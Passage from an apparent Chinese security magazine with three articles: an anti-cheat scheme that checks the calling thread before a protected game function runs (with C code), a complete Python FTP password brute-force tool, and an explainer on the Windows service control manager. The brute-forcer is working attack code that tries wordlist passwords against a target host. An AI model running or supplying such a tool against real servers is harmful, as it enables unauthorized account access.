

图 1

但在某些情况下，这种方法将不再适用，就是当函数不采用 ebp 寄存器来作为栈帧内的寻址（即对局部变量和参数的访问是 `[ebp-xxx]` 这种形式），而是直接采用 esp（即 `[esp-xxx]` 这种形式）。后者作为一种优化策略多存在于 Release 版中，前者则可能存在于 Debug 和 Release 版中。如果函数采用的是 esp 寻址，我们又该如何获取其返回地址呢？想一想栈上除了返回地址还可能有些什么信息呢？对了，就是函数的参数和局部变量。假设一个函数有参数，采用的是 stdcall 调用方式，那么它的参数是由调用者从右向左依次压入到栈中的，因此第一个参数的下面就是函数的返回地址（栈由高向低增长），如图 1 所示，通过两条汇编指令 `lea eax,param1`、`mov eax,dword ptr [eax-4]` 即可获取到返回地址。若函数没有参数就比较难办了，因为此时只能根据局部变量来获取了，而局部变量的空间是由编译器产生形如 `sub esp,xxx` 的指令在栈中形成的，而且变量的位置也不一定是按照代码的定义顺序来安排的，编译器可能会对局部变量进行重新排列，这就对获取返回地址造成了难度。因此这种保护思路所面临的一个问题是无法方便、准确地获取关键 Call 的返回地址。另外，就算能够准确无误地获取到返回地址，也可以很轻易地绕过。外挂只需在游戏程序的合法模块中找到很小的一块间隙，填写几条简单的汇编指令就可以伪造合法的返回地址，如图 2 所示。返回地址是 Call 指令后面的 JMP 指令的地址，该地址在合法的模块中。看来这个思路有些麻烦，效果也不是很好，我们得另找出路。



图 2

#### 验证关键 CALL 被调用时的线程环境

这种思路同样基于这样的一个事实：关键 Call 肯定是在游戏的合法线程中被调用，而这些线程我们是事先知道的。因此，我们可以将这些线程的信息记录下来，然后在关键 Call 中验证自己当前所处的线程环境是不是合法的。这里的关键问题是对保存的线程信息的选取，这些信息必须能够唯一标识当前进程中的一个线程，自然而然地我们可以想到线程 ID。Windows SDK 提供了一个 API，可以非常方便地获取当前线程 ID，即 GetCurrentThreadId()。需要注意的是，在获取这些信息的时候，最好不要产生系统调用，否则会对效率产生一定的影响，最好是能在应用层简单地直接获取。我们可以反汇编看看 GetCurrentThreadId() 是怎样获取当前线程 ID 的，如图 3 所示（Windows XP Professional SP3）。

```
u kernel32!GetCurrentThreadId
kernel32!GetCurrentThreadId:
7c8097b8 64a118000000    mov eax,dword ptr fs:[00000018h]
7c8097be 8b4024          mov eax,dword ptr [eax+24h]
7c8097c1 c3              ret
```

图 3

可以看出该函数非常简单明了，符合我们的要求。它其实是通过线程的 TEB 来获取线程 ID 的，在 Windows 中，当线程运行于用户态时，FS 寄存器指向该线程的 TEB 结构，如图 4 所示（部分），其偏移 0x24 处存放的就是当前线程的 ID。知道原理之后，我们也可以自己实现这个函数。另外，选取 TEB 的地址也是可以的。

```
+0x000 NtTib                    : _NT_TIB
+0x000 ExceptionList            : Ptr32 _EXCEPTION_REGISTRATION_RECORD
+0x004 StackBase                : Ptr32 Void
+0x008 StackLimit               : Ptr32 Void
+0x00C SubSystemTib             : Ptr32 Void
+0x010 FiberData                : Ptr32 Void
+0x010 Version                  : Uint4B
+0x014 ArbitraryUserPointer     : Ptr32 Void
+0x018 Self                     : Ptr32 _NT_TIB
+0x01C EnvironmentPointer       : Ptr32 Void
+0x020 ClientId                 : _CLIENT_ID
+0x020 UniqueProcess            : Ptr32 Void
+0x024 UniqueThread             : Ptr32 Void
+0x028 ActiveRpcHandle          : Ptr32 Void
+0x02C ThreadLocalStoragePointer: Ptr32 Void
+0x030 ProcessEnvironmentBlock  : Ptr32 _PEB
```

图 4

## 代码实现

有了前面这些讨论，下面通过编程来实现这种基于线程的 Call 保护方案，先整理一下流程。首先，合法的线程在开始执行时需要将自己的信息记录在一个表中。然后，在被保护的函数中验证当前线程是否合法，即判断当前线程是否在之前的记录中，若在，则本次调用合法，否则为非法。这里我们将其实现为一个 DLL，该 DLL 导出以下函数：

- `CallFlt_CreateCallFltTable`：创建一个记录线程信息的表
- `CallFlt_FreeCallFltTable`：释放一个表
- `CallFlt_RegisterCurrentThread`：将当前线程注册到表中
- `CallFlt_IsValidThread`：判断当前线程是否合法
- `CallFlt_UnRegisterCurrentThread`：将当前线程从表中删除

定义两个结构体来描述保存的线程信息，此处选择了两个信息来描述一个线程：线程 ID 和线程的 TEB 地址。

```c
typedef struct _CALL_FLT_ENTRY {
    DLIST_ENTRY ListEntry;      // 双向链表
    ULONG ThreadId;             // 线程ID
    ULONG Teb;                  // 线程TEB地址
} CALL_FLT_ENTRY, *PCALL_FLT_ENTRY;

typedef struct _CALL_FLT_TABLE {
    DLIST_ENTRY ListEntryHead;  // 链表头
    ULONG EntryCount;           // 链表中元素个数
    CRITICAL_SECTION TableLock; // 链表锁
    PCALL_FLT_ENTRY LastHit;    // 保存上次搜索的结果
} CALL_FLT_TABLE, *PCALL_FLT_TABLE;
```

所有被记录的线程形成一个双向链表，表头为 `ListEntryHead`。由于可能存在多个线程同时操作一个表，因此需要对表的操作进行互斥。为方便操作，定义两个宏来锁定和解锁一个表。

```c
#define CallFlt_LockTable(CallFltTable) \    // 锁定
    EnterCriticalSection(&(CallFltTable)->TableLock)

#define CallFlt_UnlockTable(CallFltTable) \  // 解锁
    LeaveCriticalSection(&(CallFltTable)->TableLock)
```

为了获取线程 ID 和 TEB，实现了两个内联函数：

```c
__inline ULONG CallFlt_GetCurrentThreadTeb()
{
    ULONG Teb;
    __asm mov eax, fs:[0x18]
    __asm mov Teb, eax
    return Teb;
}

__inline ULONG CallFlt_GetCurrentThreadId()
{
    ULONG ThreadId;
    __asm mov eax, fs:[0x24]
    __asm mov ThreadId, eax
    return ThreadId;
}
```

下面看看 `CallFlt_IsValidThread` 的实现，该函数判断当前线程是否合法。

```c
BOOL CallFlt_IsValidThread(PCALL_FLT_TABLE CallFltTable)
{
    ULONG Teb;
    ULONG ThreadId;
    PCALL_FLT_ENTRY CallFltEntry;

    assert(CallFltTable != NULL);
    Teb = CallFlt_GetCurrentThreadTeb();      // 获取当前线程的TEB地址
    ThreadId = CallFlt_GetCurrentThreadId();  // 获取当前线程ID
    CallFltEntry = CallFlt_SearchCallFltTable(CallFltTable, Teb, ThreadId); // 在表中查找

    if (CallFltEntry != NULL)
    {
        // 若找到了，则说明该线程是合法的，并设置 CALL_FLT_TABLE 的 LastHit 为当前
        InterlockedExchange((PULONG)&CallFltTable->LastHit, (ULONG)CallFltEntry);
        return TRUE;
    }
    else
        return FALSE;   // 否则，该线程非法
}
```

```c
PCALL_FLT_ENTRY
CallFlt_SearchCallFltTable(PCALL_FLT_TABLE CallFltTable, ULONG Teb, ULONG ThreadId)
{
    PCALL_FLT_ENTRY CallFltEntry;

    assert(CallFltTable != NULL);

    if (CallFltTable->LastHit != NULL &&   // 先判断上一次查找的结构是否匹配
        CallFltTable->LastHit->Teb == Teb &&
        CallFltTable->LastHit->ThreadId == ThreadId)
        return CallFltTable->LastHit;

    CallFltEntry = (PCALL_FLT_ENTRY)CallFltTable->ListEntryHead.NextEntry;
    while (CallFltEntry != (PCALL_FLT_ENTRY)(&CallFltTable->ListEntryHead))
    {
        // 遍历双向链表
        if (CallFltEntry->Teb == Teb && CallFltEntry->ThreadId == ThreadId)
            return CallFltEntry;

        CallFltEntry = (PCALL_FLT_ENTRY)(CallFltEntry->ListEntry.NextEntry);
    }

    return NULL;
}
```

关键代码就这些，其余的可参见源代码。之后我们编写一个程序来测试一下，看看效果。代码非常简单，就不贴出来了，具体见源代码，测试结果如图 5 所示。



图 5

简单解释一下，测试程序中有两个线程分别调用同一个函数，其中一个线程注册为合法线程，另一个未注册，因而是非法线程。当它们调用这个被保护的函数时，便产生了图 5 所示的结果。

（注：代码在 VS2008 SP1 和 Windows XP Professional SP3 上编译测试通过）

### Python 编程之 FTP 暴力破解

文 / blackcool

Python 作为一种功能强大的脚本语言，给开发人员带来了非常大的好处。Python 语法简洁，功能强大，可以跨平台使用，在 Linux、Windows 和 Mac 上都能很好地支持。安装 Python 简单方便，到 Python 的官方网站可以免费下载二进制安装包后安装就可以了，安装程序会完成所有的配置，不用像 Java 一样需要自己设置环境变量。

下面我们就一起来编写一款 FTP 暴力破解工具。首先引入 Python 中的 FTP 模块，登录 FTP 的函数是：

```python
from ftplib import FTP
ftp = FTP(target)
ftp.login(user, passwd)
```

暴力破解就是使用不同的账号及口令进行登录尝试。我们可以将密码做成字典，然后不断尝试登录。当登录成功时记录结果，当返回错误信息时退出登录，尝试下一个密码。也就是说，程序有 3 个参数：一个是目标 IP 地址，一个是用户名，还有一个密码字典。

首先是准备好用户名和密码。我们这里的用户名是指定的，密码是字典中获取的，使用 FTP 登录函数进行尝试。主要流程及代码如下：

首先是打开字典文件；读取字典文件中每行内容复制给 `_passwd_list`；遍历 `_passwd_list` 中的每条数据并复制给 `passwd`；调用 `ftplogin` 函数进行登录尝试，并将结果复制给 `flag`；下面就可以根据 `flag` 来判断是否登录成功，成功就显示给用户，失败就继续尝试。`ftplogin` 函数的主要流程和代码如下：

原理很简单，代码也不复杂，完整代码如下：

```python
_passwd_file = open(wordlist)
_passwd_list = _passwd_file.readlines()
for passwd in _passwd_list:
    flag = ftplogin(target, user, passwd)

def ftplogin(target, user, passwd):
    ftp = FTP(target)
    ftp.login(user, passwd)
    ftp.quit()
```

```python
# coding=utf-8
import sys
import getopt
from ftplib import FTP
from ftplib import all_errors

def usage():
    print "[!] Usage   : %s -t <target> -u <username> -f <wordlist>" % sys.argv[0]
    print "[!] Example : %s -t 1.1.1.1 -u admin -f wordlist.txt" % sys.argv[0]
    raise SystemExit

def ftplogin(target, user, passwd):
    if passwd[-1] == '\n':
        passwd = passwd[:-1]
    ftp = FTP(target)
    try:
        print "[+] Trying %s" % passwd
        ftp.login(user, passwd)
        ftp.quit()
        print "----------------------------------------------"
        print "[!] Good luck :)"
        print "[!] Username: %s" % user
        print "[!] Password: %s" % passwd
        return True
    except all_errors:
        pass
```

```python
def main():
    opts, args = getopt.getopt(sys.argv[1:], "t:u:f:")
    for o, a in opts:
        if o == "-u":
            user = a
        if o == "-t":
            target = a
        if o == "-f":
            wordlist = a

    _passwd_file = open(wordlist)
    _passwd_list = _passwd_file.readlines()
    print
    for passwd in _passwd_list:
        flag = ftplogin(target, user, passwd)
        if flag:
            raise SystemExit
    print "[!] Done, no passed right :-( "
    print

if __name__ == "__main__":
    main()
```

之后就可以编译测试我们的工具是否好用了，如图 1 所示。



图 1

### 幕后的英雄：Windows 服务

文/图 王晓松

年底到了，贺岁档各路人马纷纷登台亮相，大家在欣赏精彩影片的同时，常常会忽略隐藏在幕后主创人员：制片人、编剧、摄像、剧务等，他们是一部影片幕后的英雄。本文要和大家聊的，则是 Windows 系统的幕后英雄：Windows 服务。

#### 什么是服务

普通用户接触操作系统往往关注的是界面是否靓丽、操作是否方便等，这些都归图形用户界面（GUI）掌管；在 GUI 背后，还有一些进程是不与用户直接打交道的，在后台它们默默运行，需要的时候挺身而出，兢兢业业地完成自己的使命或者前台交给的任务，这些进程我们称之为服务。

在运行中输入“Services.msc”，会看到为完成各种目的而注册使用的服务，诸如 EventLog（事件日志）、Task Scheduler（任务调度）、Windows Audio（Windows 声音）等熟悉的内容，也可以看到如 Rising Scan Service、Rising Realtime Monitor 等应用程序添加的服务。第四列则指明了某种服务的启动类型，如自动、手动和已禁用三种。对于 Windows 来说，启动类型还有另外两个种类：系统启动时加载和内核初始化加载。总体上看，服务依据启动类型的分类如表 1 所示。

| 值 | 名称 | 说明 |
|---|---|---|
| 0 | SERVICE_BOOT_START | 在系统启动时由 NTLDR 加载 |
| 1 | SERVICE_SYSTEM_START | 在内核初始化时加载 |
| 2 | SERVICE_AUTO_START | 由 SCM 加载（SCM 的概念待续） |
| 3 | SERVICE_DEMAND_START | SCM 根据需要启动/停止该服务 |
| 4 | SERVICE_DISABLED | 该服务不加载到内存中 |

表 1 按照启动类型服务的分类

在 Windows 中，`SERVICE_BOOT_START` 类型的服务由 NTLDR 负责启动，`SERVICE_SYSTEM_START` 类型的服务由 I/O 管理器负责启动，而后三种服务则由服务管理器（SCM，Service Control Manager，实际执行程序为 Services.exe）的进程管理，如图 1 所示。



以上我们提到的服务按照其运行模式还可以分为：用户模式的程序和驱动程序（这个可以通过每个服务的 Type 属性判断）。换句话说，一个用户添加的服务可以是一个用户程序，完成一些诸如定时提醒、时间对时等用户层面的后台服务；也可以加载诸如 .sys 类型的驱动程序文件，完成底层如文件系统挂钩、进程启动安全检测等较为高级神秘些的功能。通常来说，`SERVICE_BOOT_START` 和 `SERVICE_SYSTEM_START` 两种类型服务的执行文件都是驱动程序。

对于由 SCM 管理的三种服务，其管理框架由三部分组成：服务应用、服务控制程序（Service Control Program，SCP）和服务管理器（Service Control Manager，SCM）。服务应用即我们所称的具体服务，而 SCP 就是称为“服务”的 Microsoft 管理控制台（MMC）程序，负责呈现给用户管理的界面。连接服务应用与 SCP 的就是 SCM（它的运行实体为 services.exe），接收 SCP 传达的用户命令，启动或者停止服务应用，并将服务的状态返回到 SCP。总体框架如图 2 所示。



图 2 SCM 控制服务的整体架构

#### Services.exe 的实现

SCM 的可执行文件是 `\Windows\System32\Services.exe`，所以可以认为 SCM 与 Services 进程是一个内容。Windows 交给 Services 的任务可以归结为：依照顺序启动各个服务以及其后控制各个服务的运行状态。

首先第一个问题，Windows 中需要加载的服务很多，关系也比较复杂，依照什么顺序进行呢？实际上，各个服务之间并不是完全独立的，有些服务之间会存在依附关系，就如前面提到的 Windows Audio 服务，依赖于 Plug and Play 服务的启动，因为声卡本身就是即插即用设备嘛！这种依附关系置于服务的属性中，Windows 自带的服务在安装系统后已经形成了，而如果用户安装的服务有依附关系的话，是需要在安装服务过程中声明这种依附关系的。Windows 将服务分成组，服务的装载和启动应该成组地进行，组与组之间也有先后次序的不同。需要注意的一点是，并非所有的服务都必须属于某一个组，有些服务是独立的。

SCM 与注册表有很大的关系，服务的很多内容都存储在注册表中。当 services 进程开始行使使命时，注册表已经加载，services 进程会提取注册表中相应的键值，按照其内容完成相应的功能。每次阅读这部分内容的时候，比较头疼的是每个注册表键值的路径都很长。为了不影响下面讲解 services 进程的流程，在这篇文章里不妨给各个长的注册表键值路径起个别名（传说中的外号），如表 2 所示。

| 序号/别名 | 键值 | 功能 |
|---|---|---|
| 1 组序键 | HKLM\System\CurrentControlSet\Control\ServiceGroupOrder 中的 List 表项 | 说明了各个组的顺序 |
| 2 服务序键 | HKLM\System\CurrentControlSet\Control\GroupOrder | 说明了该组中每个服务的启动顺序 |
| 3 服务键 | HKLM\System\CurrentControlSet\Services | 罗列出所有的服务 |
| 4 svchost 内容键 | HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost | 服务类别名称 |
| 5 svchost 服务键 | HKLM\SYSTEM\CurrentControlSet\Services\服务 | 指明了加载 DLL 文件的路径 |

| 参数键 | 名称/Parameters |
|---|---|

表 2 一些重要键值的别名

第二个问题，services 进程控制各个服务的运行状态是通过命名管道实现的（什么是命名管道？可以简单地理解为 services 进程与各个服务之间的一条通道）。在各个服务被 services 进程启动之前，services 进程会专门为该服务建立一个命名管道，用于双方之间传递信息。每个服务在启动过程中，会主动去连接该管道，双方就可以互通有无了。每个服务实现的代码中会有接收到 services 进程命令后与命令相对应的动作。

services 进程的主程序大致可以分为三个部分，如图 3 所示，另外还有一些关于 RPC 的内容。



图 3 Services 进程主流程

#### 建立服务数据库

Services 进程中建立服务数据库的函数是 ScCreateServiceDB，负责建立起 SCM 的内部数据库。这段代码最主要的内容就是建立起两个链表：组的链表和服务的链表，如图 4 所示。第一个链表由该函数扫描服务键得到每个服务有哪些属性，说明了该服务属于哪个组；第二个链表从组序键中得到，组的顺序是严格按照组序键中的内容排列的。这个数据库将作为未来 services 进程启动各个服务的依据。另外，该函数还会根据每个服务键中 DependOnGroup 和 DependOnService 注册表键，确定该服务依赖于哪些组和服务。以上讲到的，组的链表、服务的链表以及服务的依附关系形成了服务数据库。


图 4 服务数据库的建立

#### 检查系统加载和初始化中加载的服务

前面讲过，在 Services 进程正式运行前，系统会加载 SERVICE_BOOT_START 与 SERVICE_SYSTEM_START 两种类型的服务。既然已经加载了，那么我们在 Services 进程中就要将其从服务键中甄别出来，从而在下一阶段服务的加载中跳过这两种服务，无须加载一次嘛。甄别的方法很简单，就是扫描服务队列，查看服务的启动类型，小于 2 的进行标记即可。

### 1）服务的启动

前面提到，并不是所有的服务都属于某一个组，另外也并不是所有的组都会出现在组序键中，所以 Services 进程启动服务的顺序会按照以下顺序执行：

- 按照组序键中的内容，依次加载每个组中的各个服务；
- 为那些属于其他组的服务单独进行加载；
- 为那些不属于任何组的服务单独进行加载。

组序键中的内容规定了每个组加载的顺序，而服务序键规定了每个组中各个服务的加载顺序，因此在步骤①中，Services 进程严格按照组序键中的顺序加载组，而对于每个组中的服务，按照服务序键的规定加载各个服务。一个服务加载的例子如图 5 所示。



图 5 服务加载顺序示意

很简单，就不多解释了。服务加载顺序的问题解决了，那么每个服务又是如何加载的呢？

在 Services 进程中，加载服务是由 ScStartService 函数完成的。前面讲过服务分为用户模式的程序和驱动程序（通过每个服务的 Type 属性判断），这里要区别进行对待。如果是驱动程序，就使用该服务中 ImagePath 键指向的驱动文件，利用 ScLoadDeviceDriver 函数加载驱动即可。如果是用户模式的程序，需要调用 CreateProcessAsUser 函数创建并启动一个用户空间的进程。其步骤可以列为：

- SCM 创建一个命名管道；
- SCM 创建服务进程；
- 服务进程启动后通知 SCM 服务进程的进程号。

至此连接建立，SCM 就可以通过该通道以命令的方式控制服务进程了。而在服务进程的启动过程中又具体做了哪些工作呢？一般一个服务进程启动后，会首先通过命名管道连接 SCM，通告情况，然后调用函数 StartServiceCtrlDispatcher 等待 SCM 的通知。一般刚启动的话，会接到 SERVICE_CONTROL_START 命令，这个命令包含一个启动命令行，进而 StartServiceCtrlDispatcher 函数最终会调用以启动命令行为参数执行 CreateThread 函数启动服务线程。至于服务线程的内容就八仙过海，各显其能了。通常这些服务线程也会创建一些管道用于服务，等待需要服务的进程连接后提供服务。总体结构如图 6 所示。

